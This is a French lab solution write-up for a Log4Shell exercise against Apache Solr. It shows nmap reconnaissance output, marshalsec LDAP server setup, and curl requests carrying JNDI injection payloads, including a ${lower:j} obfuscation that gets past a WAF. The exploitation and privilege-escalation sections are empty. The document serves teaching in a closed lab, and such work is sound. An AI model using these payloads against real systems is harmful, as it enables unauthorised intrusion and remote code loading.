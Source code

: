 # Ce fichier a but pour de donner la solution du TP 'Red_Log4Shell'
# Les adresse IP ne sont pas forcément identiques.
# Cette solution sera en 4 parties :
## Partie   I : Reconnaissance
`nmap -sP 172.17.17.0/24`
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-02 08:17 EDT
Nmap scan report for 172.17.17.2
Host is up (0.13s latency).
Nmap scan report for kali (172.17.17.139)
Host is up (1.3s latency).
Nmap scan report for 172.17.17.165
Host is up (0.40s latency).
Nmap done: 256 IP addresses (3 hosts up) scanned in 18.89 seconds
```

`nmap -sS -sV -A -p- 172.17.17.165`
```
Nmap scan report for 172.17.17.165
Host is up (0.015s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 f2:7f:fc:28:53:0e:cf:2e:ca:71:fc:e7:1d:73:2f:6f (RSA)
|   256 25:58:a7:ff:9c:b7:5e:23:80:70:d4:f0:7c:1b:c2:39 (ECDSA)
|_  256 a5:8e:7b:b7:f6:d1:4c:fb:68:3f:3f:f7:ff:39:1d:29 (ED25519)
80/tcp open  http    Apache httpd 2.4.41
MAC Address: 00:0C:29:C5:4E:A5 (VMware)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: Host: RedBlueLab.com; OS: Linux; CPE: cpe:/o:linux:linux_kernel
 
TRACEROUTE
HOP RTT      ADDRESS
1   14.86 ms 172.17.17.165
 
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 100.69 seconds
```
![Capture d'écran de la version d'Apache Solr](https://github.com/GetSun2EZ/RedBlue-Lab/blob/main/Images/solr_version.png)

## Partie  II : Recherche d'une vulnérabilité sur l'application découverte
Maintenant que nous avons obtenu la technologie utilisée et les versions des applications, il faut explorer les potentielles vulnérabilités présentes sur ces applications. Ici, en cherchant sur internet, nous pouvons découvrir que sur la version 8.11.0. d’Apache Solr, la vulnérabilité Log4Shell est possible. Au chemin "/solr/admin/cores" du site tous les paramètres fournis sur cette page sont interprétés par Log4J.

Pour l’instant, tout ça reste hypothétique, il va falloir tester.
Pour réaliser l’attaque,il sera nécessaire d’ouvrir un serveur un serveur LDAP sur notre machine attaquante. En continuant nos recherches, l’outil "marshalsec" se révèle très utile. Nous aurons besoin d’un serveur Web, que l’on pourra obtenir facilement avec python.

Avant toute chose, il faut installer la même version de java que celle de l’application.
- Télécharger le paquet Java 8u181<br>
`$ wget https://repo.huaweicloud.com/java/jdk/8u181-b13/jdk-8u181-linux-x64.tar.gz`

- Décompresser le paquet<br>
`$ tar -xzf jdk-8u181-linux-x64.tar.gz`

Ensuite, regardons si le point d’injection est correct, nous allons simplement initialiser une connexion LDAP vers notre machine attaque grâce à l’API JNDI.
Il faut ouvrir un serveur sur la machine attaquante avec la commande suivante : <br>
`$ jdk1.8.0_181/bin/java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1/#Payload"`

Il n’est pas encore nécessaire de spécifier un serveur Web car il s’agit d’un test.
Comme la charge utile doit être présente dans un paramètre, la requête qui sera envoyée ressemblera à ceci :<br>
`$ curl 'http://172.17.17.165/solr/admin/cores?toto=$\{jndi:ldap://172.17.17.139:1389\}'`

L’exécution de cette commande, nous renvoie l’erreur suivante :<br>
![Capture d'écran de l'erreur](https://github.com/GetSun2EZ/RedBlue-Lab/blob/main/Images/erreur_waf.png)

Cette erreur peut nous faire penser qu’un WAF bloque notre requête, essayons la même commande mais avec un peu d’obfuscation : 
`$ curl 'http://172.17.17.165/solr/admin/cores?toto=${${lower:j}ndi:ldap://172.17.17.139:1389\}'`

Cette fois une connexion a bien été enregistrée sur notre serveur LDAP, ce qui signifie que l’application Web est belle et bien vulnérable à Log4Shell.
![Capture d'écran de la réponse du serveur LDAP](https://github.com/GetSun2EZ/RedBlue-Lab/blob/main/Images/ldap_local.png)

Nous pouvons aussi voir que le serveur LDAP redirige vers un serveur Web.

## Partie III : Exploitation de la vulnérabilité trouvée


## Partie  IV : Escalade de privilège


